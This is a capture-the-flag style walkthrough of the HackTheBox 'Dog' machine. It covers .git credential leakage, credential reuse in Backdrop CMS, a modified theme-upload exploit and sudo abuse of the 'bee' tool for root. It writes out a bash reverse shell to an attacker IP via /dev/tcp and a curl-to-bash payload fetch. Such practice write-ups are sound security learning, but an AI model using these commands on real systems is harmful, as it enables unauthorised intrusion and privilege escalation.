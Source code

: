 ```yaml
---
layout: post
title: Dog
date: 2025-06-22 00:34:00 +0800
categories: [HackTheBox, Easy]
tags: [git-exposed, php-rce, backdrop-cms, sudo-abuse, custom-binary, reverse-shell]
author: klein
image:
  path: /images/images-dog/image_26.png
  
---
```


### Quick summary:

This is an Easy level Linux machine. The box has port 80(http) and port 22(ssh) open. There is going to be a .git directory which is going to contain leaked credentials. These credentials are going to be a way into the application. With a quick Google search, we can find an exploit to upload a shell.zip file. This way we will get a shell as the www-data user and after that, we can reuse the found credentials the second time to switch to another user. To finish it off the sudo -l command is going to show that we can run an application that executes php as root.


As always let's start with enumeration:
```bash
nmap -sC -sV -vv -oN dog 10.129.204.111
```


![b](/images/images-dog/image_01.png)



After this, I tried directory busting and searching for virtual hosts. Before going straight to the web page and the .git directory.

```
gobuster dir -u http://dog.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt  
```


![b](/images/images-dog/image_02.png)


Nothing came back that would have led me further.

Let's go to the website.


![b](/images/images-dog/image_03.png)

As you would have guessed, this website is all about dogs.
There is a login portal with a reset password functionality. User enumeration through error messages is possible, but this is not going to get me further for now.

Let's download the git directory with git-dumper.
```
 git-dumper http://dog.htb/.git git/ 
```
When going over a .git directory I always look for the latest changes, any files that have not been committed yet, or just for the line that were modified. In this case, this did not lead me further.

**I found nothing by doing these.

I did a manual exploration and found database credentials:


![b](/images/images-dog/image_04.png)


Password reuse is very common, and this is going to come in handy.

Outside of this information, there was an email on the About page:
```
support@dog.htb
```

It is also important to add the domain name to the host file.
```bash
sudo vi /etc/hosts
```

![b](/images/images-dog/image_05.png)


**Also it is an important detail that the site is using Backdrop CMS.

I got to the idea to search for this domain in the source code, I was not finding any secrets, but I had a password which led me to the conclusion that I need users.

I did that with the following very simple command.
```bash
grep -r -i "@dog.htb" .
```

This gave me a new username:
```
tiffany@dog.htb
```


![b](/images/images-dog/image_06.png)



Using this username with the database password that was found earlier I can log into the CMS.

This will disclose a lot of new information, for example, a bunch of new usernames:


![b](/images/images-dog/image_07.png)


```
rosa
axel
morris
john
dogBackDropSystem
jobert
jPAdminB
```

Also, the version number is going to be disclosed as well in the CMS.


![b](/images/images-dog/image_08.png)


Time to do a simple Google search:
```
backdrop cms 1.27.1 exploit
```


![b](/images/images-dog/image_09.png)


Let's take a look at the first one, download it, and then inspect how it works.

![b](/images/images-dog/image_10.png)


It is also going to help with finding the uploaded file and where to upload it.

![b](/images/images-dog/image_11.png)


Go to Appearance > Install themes > Manual installation.

Unfortunately, it is not going to allow you to upload a .zip file. It also lists, that for example .tar is accepted. 


![b](/images/images-dog/image_12.png)


I strongly believe there is more than one way to bypass this filter, at the time of writing this post the easiest way seemed to modify the Python script.

Let's modify the function that creates the now .tar file and then the main() function.


![b](/images/images-dog/image_13.png)


This way the file can be uploaded, and be found in the directory that is also listed in the exploit script output.


![b](/images/images-dog/image_14.png)


![b](/images/images-dog/image_15.png)


However, there is a script on the box that is going to delete the file after a minute or so, so you will have to act quickly.

With the help of the awesome website https://www.revshells.com/, I quickly copied a bash reverse shell and started a Netcat listener.

There was one more thing, for some reason the only way I could upload a file was to copy it to a .html file and execute it right away with curl after uploading it. 


![b](/images/images-dog/image_16.png)


![b](/images/images-dog/image_17.png)


![b](/images/images-dog/image_18.png)


![b](/images/images-dog/image_19.png)


This works because by default when you request a URL with no file specified, curl fetched:
```bash
http://<your_ip>:<server_port>/ 
```

This maps to /, which the Python HTTP server serves as index.html by default. And with bash, it gets executed right away.

Let's stabilize the shell.


![b](/images/images-dog/image_20.png)


By exploring the server, there are 2 users.


![b](/images/images-dog/image_21.png)


Because there were not many options for the www-data user, I tried to switch to one of the users with the already-found credentials. Which worked :). 


![b](/images/images-dog/image_22.png)


After trying out cron jobs, and SUID binaries, the way of escalating privileges is going to be the bee file that can be run with sudo privileges.


![b](/images/images-dog/image_23.png)


By running this program in itself, there are multiple interesting features, however, the most interesting part is that it can run php-eval as root.

I also base64 encoded my payload to avoid quoting issues.

My payload:

```bash
REV=$(echo 'bash -i >& /dev/tcp/10.10.14.74/9002 0>&1' | base64)
```

Let's start a listener and execute it.

```bash
sudo bee --root=/var/www/html php-eval 'system("echo '$REV' | base64 -d | bash");'
```

```
--root=/var/www/html
```
This part is important because it specifies the root directory of the Backdrop installation. It is a requirement to the tool this way.


![b](/images/images-dog/image_24.png)


![b](/images/images-dog/image_25.png)